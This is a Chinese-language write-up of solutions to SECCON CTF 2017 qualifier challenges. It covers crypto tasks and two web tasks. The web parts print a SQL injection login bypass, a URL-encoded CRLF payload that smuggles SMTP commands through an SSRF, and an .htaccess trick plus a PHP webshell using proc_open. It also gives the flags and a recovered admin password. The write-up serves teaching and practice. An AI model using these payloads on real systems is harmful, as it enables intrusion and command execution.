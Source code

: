 # SECCON CTF quals 2017

## Vigenere3d

就是 Vigenere cipher 而且 key 是回文

隨便寫個 script 就解出來了 ([solve.py](Vigenere3d/solve.py))

flag : SECCON{Welc0me_to_SECCON_CTF_2017}

## Ps-and-Qs

給兩把 public key

有共同質數 gcd 一下就解出來了 ([solve.py](Ps-and-Qs/solve.py))

flag : SECCON{1234567890ABCDEF}

## SHA-1-is-dead

SHA1 collision 但是要求兩個檔案的大小要介於 2017KiB ~ 2018KiB

那就把 google 的那兩個檔案拿來後面隨便接一些一樣的字串讓大小夠就好了

flag : SECCON{SHA-1_1995-2017?}

## SqlSRF

> The root reply the flag to your mail address if you send a mail that subject is "give me flag" to root.
> http://sqlsrf.pwn.seccon.jp/sqlsrf/

我們可以看到 index.cgi 的原始碼

這行有 sql injection `"SELECT password FROM users WHERE username='".$q->param('user')."';"`

看原始碼也可以知道他是用 sqlite

他會把 select 出來的東西跟 encrypt(param['pass']) 比較，一樣就可以登入了

另外，如果句選 Remember Me 的話，他會幫你把 encrypt(param['user']) 存在 cookie 裡面，然後幫你解密放在 user 的 input box ( 我們可以加解密任意字串 )

所以先得到 encrypt('oalieno') = '6102b0591250cea64f303ec4a9c6425f'

user 放 `' union select '6102b0591250cea64f303ec4a9c6425f' -- `

pass 放 `oalieno`

就可以順利登入了

![](https://i.imgur.com/EQqOS9M.png)

在 menu.cgi 我們可以按 `netstat -tnl` 但是不能用 `wget --debug -O /dev/stdout 'http://{}'` ( 需要 admin )

![](https://i.imgur.com/9q6DY8Q.png)

所以我們回過頭來用 sql blind injection 取得 admin 的密碼 ([solve.py](SqlSRF/solve.py))

密碼是 encrypt 過的 ( 長度 32 ) 同樣用 Remember Me 解密

admin password = decrypt(d2f37e101c0e76bcc90b5634a5510f64) = 'Yes!Kusomon!!'

成功用 admin 登入後就可以用 wget 發 request

剛剛用 netstat 可以看到 `127.0.0.1:25` 這台 local 的 SMTP server

直接 wget `127.0.0.1:25` 的話可以看到 SMTP server 會把我們的 http request 的每一行都當成 SMTP 的指令來看

![](https://i.imgur.com/a0Mdg7W.png)

那我們就用 `%0d%0a` 來下 SMTP 指令寄信給 `root`

```
127.0.0.1
HELO oalieno
MAIL From: <xxx@gmail.com>
RCPT To: <root>
DATA
Subject: give me flag
oalieno
.
:25/
```

把上面的東東做 urlencode 就可以了

final payload : `127.0.0.1%0D%0AHELO%20oalieno%0D%0AMAIL%20From%3A%20%3Cxxx%40gmail.com%3E%0D%0ARCPT%20To%3A%20%3Croot%3E%0D%0ADATA%0D%0ASubject%3A%20give%20me%20flag%0D%0Aoalieno%0D%0A.%0D%0A:25/`

然後就收到信了XD

![](https://i.imgur.com/OEwnXKM.png)

但是 flag 也被 encrypt 過，那就同樣用 Remember Me 解密

flag : SECCON{SSRFisMyFriend!}

## Very Smooth

[some ctf writeups](https://ctf.rip/bsides-sf-ctf-2017-root-crypto-challenge/)

[extract certificate from pcap](https://security.stackexchange.com/questions/123851/how-can-i-extract-the-certificate-from-this-pcap-file)

參考上面兩篇把 憑證 取出來存成 `certificate.der`

`openssl x509 -inform der -pubkey -noout -in certificate.cer > pub.pem` 再轉成 pem 格式的 public key

再來就是來分解 N 了 ( N 是 1024 bit )

首先用 `./RsaCtfTool.py --publickey public.pem --verbose --private` 但解不開 ( factordb 可以分解 O_O 不過應該是賽後有人把他傳上去了因為我是賽後才解這題的 )

但是題目有提示 smooth 也就是 smooth number 也就是質因數很多的 number

那我就用 Pollard p-1 就直接解出來了 O_O ( 看 writeups 好像大家都用 Williams p+1 還沒看懂他 Orz )

解出來之後輸出成 pem 格式的 private key

![](https://i.imgur.com/x3tDP65.png)

Edit>Preference Protocol>SSL>Edit RSA keys list 把 private.pem 匯入

然後 follow SSL stream 就大功告成

![](https://i.imgur.com/yLT7EL0.png)

flag : SECCON{One of these primes is very smooth.}

## automatic door

> Get shell, and execute /flag_x

> http://automatic_door.pwn.seccon.jp/0b503d0caf712352fc200bc5332c4f95/

網站提供 read 和 write 和 看 phpinfo 和 看當前路徑 的功能

主要的思路就是放一個可以用的 webshell 上去 ( `strstr($f, 'ph')` 這行限制了不能上傳 `.php` )

先看 phpinfo 可以看到系統是 `linux` 然後很多被 ban 的 function

![](https://i.imgur.com/5wjyXtQ.png)

所以首先我們先上傳 `.htaccess` 讓我們可以傳 `.txt` 他就會當作 php script 執行

```
AddType application/x-httpd-php .txt
```

我是用 postman 上傳檔案

![](https://i.imgur.com/mqoPozo.png)

`proc_open` 很剛好的沒有被 ban

上傳 `shell.txt` 再去瀏覽 `http://automatic_door.pwn.seccon.jp/0b503d0caf712352fc200bc5332c4f95/sandbox/FAIL_xxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxx/shell.txt`

```php
<?php
$cwd = '';
$descriptorspec = array(
    0 => array("pipe", "r"),
    1 => array("pipe", "w"),
    2 => array("file", "/tmp/error-output.txt", "a")
);

$process = proc_open("/flag_x", $descriptorspec, $pipes, $cwd);

echo stream_get_contents($pipes[1]);
fclose($pipes[1]);
?>
```

flag : SECCON{f6c085facd0897b47f5f1d7687030ae7}
